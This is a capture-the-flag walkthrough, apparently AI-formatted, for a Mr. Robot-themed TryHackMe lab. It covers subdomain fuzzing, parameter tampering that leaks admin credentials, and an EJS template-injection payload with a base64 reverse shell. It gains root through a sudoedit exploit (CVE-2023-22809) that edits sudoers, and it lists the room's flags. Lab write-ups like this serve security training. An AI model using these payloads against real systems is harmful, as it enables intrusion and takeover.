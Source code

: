 ```yaml
---

## 🧠 Summary

This room is based on Mr. Robot and explores topics like virtual host enumeration, login panel access, SSTI exploitation in EJS templates, and privilege escalation through a sudoedit vulnerability (CVE-2023-22809).  
We’ll go from web enumeration all the way to getting root via environment variable abuse.

---
```


## 🔍 Enumeration

Run a full TCP scan:

```bash
nmap -p- -T4 -A MACHINE_IP -vvv
````

### Open Ports

* **22/tcp** – SSH
* **80/tcp** – HTTP

![Screenshot From 2025-05-13 11-02-44](https://github.com/user-attachments/assets/7df9d6ec-91ba-485a-9aac-ecbc5703956e)

---

## 🌐 Web Enumeration

Check the page at `http://cyprusbank.thm`. Not much useful there.

Use `ffuf` for subdomain fuzzing:

```bash
ffuf -u http://cyprusbank.thm/ -H "Host: FUZZ.cyprusbank.thm" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt
```

**Interesting findings:**

* `admin.cyprusbank.thm` – Returns **302 Redirect**

Add this to `/etc/hosts`:

```
MACHINE_IP  admin.cyprusbank.thm
```

![Screenshot From 2025-05-13 11-12-08](https://github.com/user-attachments/assets/88928e06-1c80-411c-bb28-c2953469b6d3)

---

## 🔑 Login Panel

Visit: `http://admin.cyprusbank.thm`

Try the given credentials:

* **Username:** Olivia Cortez
* **Password:** olivi8

✅ Success! You’re logged in.

Check the **Messages** tab:
URL looks like:

```
http://admin.cyprusbank.thm/messages/?c=5
```

Try manipulating the `?c=5` parameter to `?c=0`.

![Screenshot From 2025-05-13 11-15-08](https://github.com/user-attachments/assets/bf8013f3-0fe5-4ec8-b2aa-d8337a8f5000)

![Screenshot From 2025-05-13 11-22-08](https://github.com/user-attachments/assets/ecc6bfcf-e010-43d2-b86c-99d1e096c167)

You’ll find:

> **Admin Username:** Gayle Bev
> 
> **Password:** `p~]P5!6;rs558:q`

---

## ☎️ Find Tyrell's Phone Number

After logging in as **Gayle Bev**, you’ll find a phone number:

**Answer:** `842-029-5701`

---

## 🔥 XSS + SSTI Discovery

In **Settings**, you can add a user and see the password reflected back – likely a candidate for **XSS** or **SSTI**.

Using Burp Suite to intercept the POST request, we see evidence of **EJS** templates.

![Screenshot From 2025-05-13 11-30-43](https://github.com/user-attachments/assets/14169de9-15de-49b3-9bb8-648c480761bf)

---

## ⚙️ Exploiting EJS Server-Side Template Injection

### Resource:

[https://eslam.io/posts/ejs-server-side-template-injection-rce](https://eslam.io/posts/ejs-server-side-template-injection-rce)

Use Burp Suite with the payload:

```bash
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').exec('COMMAND')
```

![Screenshot From 2025-05-13 11-58-25](https://github.com/user-attachments/assets/5f57b7db-7321-4546-a1ad-6a3542471668)

![Screenshot From 2025-05-13 11-58-57](https://github.com/user-attachments/assets/38bb71ae-f573-4719-8497-6211a739da84)


### Reverse Shell Payload (Base64-encoded BusyBox)

Set up a listener:

```bash
nc -lnvp 4445
```

Inject payload:

```bash
name=a&password=b&settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('bash -c "echo <REPLACE WITH YOURS> | base64 -d | bash"');//
```

![Screenshot From 2025-05-13 12-06-07](https://github.com/user-attachments/assets/28d495b6-5ed5-40b6-a929-6facacc36e64)

![Screenshot From 2025-05-13 12-15-22](https://github.com/user-attachments/assets/f9703a21-5bc3-4e78-936e-832a9c16b0b7)


Get a shell and stabilize:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![Screenshot From 2025-05-13 12-21-34](https://github.com/user-attachments/assets/bf5b3fb7-8d4e-4288-9f5e-c093743a4946)


---

## 🏁 User Flag

> Location: `/home/web/user.txt`

**Flag:**

```
THM{4lways_upd4te_uR_d3p3nd3nc!3s}
```

---

## 🔼 Privilege Escalation (CVE-2023-22809)

Run:

```bash
sudo -l
```

Findings:

```bash
(web) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Exploit via `EDITOR` environment variable:

```bash
export EDITOR='nano -- /etc/sudoers'
sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
```

Add this line:

```bash
web ALL=(ALL) NOPASSWD: ALL
```
![image](https://github.com/user-attachments/assets/e48f3828-8ad2-46ac-a0a9-2b4dd0d4ebfb)

```
web@cyprusbank:~/app$ sudo -l
Matching Defaults entries for web on cyprusbank:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User web may run the following commands on cyprusbank:
    (root) NOPASSWD: sudoedit /etc/nginx/sites-available/admin.cyprusbank.thm
    (ALL) NOPASSWD: ALL
```

Get root:

```bash
sudo su -
```
![Screenshot From 2025-05-12 21-18-11 - Edited](https://github.com/user-attachments/assets/890e3b8c-712e-4132-addc-eee6e519bf10)

---

## 🧾 Root Flag

> Location: `/root/root.txt`

**Flag:**

```
THM{4nd_uR_p4ck4g3s}
```

---

## ✅ Conclusion

* Enumerated virtual hosts with ffuf
* Found and used user and admin credentials
* Exploited SSTI in EJS templates for RCE
* Gained root via CVE-2023-22809 (sudoedit bypass)

**Lesson:** Always validate template inputs and keep your packages up to date.

```

Let me know if you want me to create the full file and upload it for GitHub directly.
```
